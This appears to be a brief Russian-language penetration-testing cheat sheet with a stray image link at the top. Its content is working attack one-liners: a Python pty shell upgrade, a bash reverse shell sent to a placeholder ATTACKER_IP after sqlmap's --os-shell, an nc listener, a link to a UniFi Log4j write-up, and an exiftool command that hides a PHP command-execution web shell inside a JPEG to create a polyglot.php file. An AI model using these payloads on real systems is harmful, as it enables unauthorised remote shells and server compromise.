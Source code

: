 Переход на удобный шелл:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Проброс шелла с sqlmap --os-shell:
`bash -c "bash -i >& /dev/tcp/{ATTACKER_IP}/443 0>&1"`
Слушать:
`sudo nc -lvnp 443`

[UniFi Log4j](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)

Полиглотный шелл:
`exiftool -DocumentName="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" <jpeg-file-name>.jpeg -o polyglot.php`